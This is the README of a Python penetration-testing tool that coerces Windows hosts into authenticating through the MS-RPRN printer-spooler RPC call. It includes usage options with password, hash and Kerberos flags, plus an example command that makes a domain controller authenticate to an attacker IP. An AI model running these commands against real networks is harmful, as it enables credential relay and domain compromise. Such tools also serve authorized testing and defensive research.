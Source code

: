 # MSRPRN-Coerce

<p align="center">
    A python script to force authentification using MS-RPRN RemoteFindFirstPrinterChangeNotificationEx function (opnum 69).
    <br>
    <img alt="GitHub release (latest by date)" src="https://img.shields.io/github/v/release/p0dalirius/MSRPRN-Coerce">
    <a href="https://twitter.com/intent/follow?screen_name=podalirius_" title="Follow"><img src="https://img.shields.io/twitter/follow/podalirius_?label=Podalirius&style=social"></a>
    <a href="https://www.youtube.com/c/Podalirius_?sub_confirmation=1" title="Subscribe"><img alt="YouTube Channel Subscribers" src="https://img.shields.io/youtube/c/subscribers/Podalirius_?style=social"></a>
    <br>
</p>

![](./.github/banner.png)

## Features

**Requires**: A valid username and password on the domain.

 - [x] Force authentification using MS-RPRN `RemoteFindFirstPrinterChangeNotificationEx` function (opnum 69).
 - [x] 🐍 Python 3 and Python 2 compatibility.
 - [x] Targets either a single IP or a range of IPs.

## Usage

```
$ ./MS-RPRN-Coerce.py -h
MS-RPRN-Coerce v1.1 - by @podalirius_

usage: e.py [-h] [-v] [--dc-ip ip address] [-d DOMAIN] [-u USER] [--target-ip ip address] [--no-pass | -p PASSWORD | -H [LMHASH:]NTHASH | --aes-key hex key] [-k]
            listener target

Force authentification using MS-RPRN RemoteFindFirstPrinterChangeNotificationEx function (opnum 69).

positional arguments:
  listener              IP address or hostname of listener.
  target                IP address or hostname of target.

optional arguments:
  -h, --help            show this help message and exit
  -v, --verbose         Verbose mode. (default: False)

authentication & connection:
  --dc-ip ip address    IP Address of the domain controller or KDC (Key Distribution Center) for Kerberos. If omitted it will use the domain part (FQDN) specified in the
                        identity parameter
  -d DOMAIN, --domain DOMAIN
                        (FQDN) domain to authenticate to
  -u USER, --user USER  user to authenticate with
  --target-ip ip address
                        IP Address of the target machine. If omitted it will use whatever was specified as target. This is useful when target is the NetBIOS name or
                        Kerberos name and you cannot resolve it

  --no-pass             Don't ask for password (useful for -k)
  -p PASSWORD, --password PASSWORD
                        Password to authenticate with
  -H [LMHASH:]NTHASH, --hashes [LMHASH:]NTHASH
                        NT/LM hashes, format is LMhash:NThash
  --aes-key hex key     AES key to use for Kerberos Authentication (128 or 256 bits)
  -k, --kerberos        Use Kerberos authentication. Grabs credentials from .ccache file (KRB5CCNAME) based on target parameters. If valid credentials cannot be found, it
                        will use the ones specified in the command line
```

## Example

To force `DC01.LAB.local` to authenticate over SMB to your attacker IP `192.168.2.51`:

```
./MS-RPRN-Coerce.py 192.168.2.51 DC01.LAB.local -u user1 -p 'Lab123!'
```

## Technical detail

This attack performs an RPC call of the `RpcRemoteFindFirstPrinterChangeNotificationEx` function (opnum 69) in the SMB named pipe `\pipe\spoolss` through the `IPC$` share to force authentication from a target machine to another.

## Demo

https://user-images.githubusercontent.com/79218792/155523928-6614ba1f-13c0-4bfc-8f42-05ef78c1e905.mp4

## Contributing

Pull requests are welcome. Feel free to open an issue if you want to add other features.
